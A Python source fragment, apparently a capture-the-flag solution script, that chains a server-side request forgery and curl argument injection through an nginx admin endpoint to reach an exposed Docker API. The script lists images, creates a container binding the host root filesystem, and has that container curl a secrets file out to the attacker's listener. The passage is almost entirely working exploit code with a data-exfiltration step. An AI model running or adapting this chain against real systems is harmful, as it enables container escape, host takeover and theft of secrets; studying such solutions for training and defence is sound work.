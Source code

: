 ```python
                    self.data += d
            except TimeoutError as e:
                pass

            c.send(self.response)
            c.close()
        except Exception as e:
            print(f"Socket error: {e}")
            raise


def redirect_bounce(command: str) -> None:
    print(f"Preparing bounce: {command}")
    rdr_url = f"http://nginx/admin?host=prison:5005&method={quote_plus(command)}%0a"
    print(f"Final rdr: {rdr_url}")
    port = Responder(b"HTTP/1.1 302 cyber\r\nLocation: " + rdr_url.encode() + b"\r\n\r\n").port
    requests.get(f"http://{TARGET}/http://{LOCAL_IP}:{port}/")


# cache docker images
redirect_bounce(f"{PRISON_INTERNAL_IP}:2375/images/json -o /tmp/images")

# Pull cached file
images_receiver = Responder()
redirect_bounce(f"{LOCAL_IP}:{images_receiver.port} --json @/tmp/images")

# get id of solitary container
resp = images_receiver.data.decode().split("\r\n\r\n")[1]
print(f"response: {resp}")
image_id = json.loads(resp)[0]["Id"].split(":")[1]

flag_receiver = Responder()

# create container to leak flag
container = (
    json.dumps(
        {
            "Image": image_id,
            "HostConfig": {"Binds": ["/:/host"]},
            "Cmd": ["curl", "--data", "@/host/run/secrets/flag", f"{LOCAL_IP}:{flag_receiver.port}"],
        }
    )
    .replace(" ", "")
    .encode()
)

# push create file to solitary
port = Responder(b"HTTP/1.1 200 OK\r\nContent-Length: " + str(len(container)).encode() + b"\r\n\r\n" + container).port
redirect_bounce(f"{LOCAL_IP}:{port} -o /tmp/create")

# send create request
redirect_bounce(f"{PRISON_INTERNAL_IP}:2375/containers/create --json @/tmp/create -o /tmp/containerid")

# get container id
cid_receiver = Responder()
redirect_bounce(f"{LOCAL_IP}:{cid_receiver.port} --json @/tmp/containerid")
resp = cid_receiver.data.decode().split("\r\n\r\n")[1]
print(f"response: {resp}")
container_id = json.loads(resp)["Id"]

```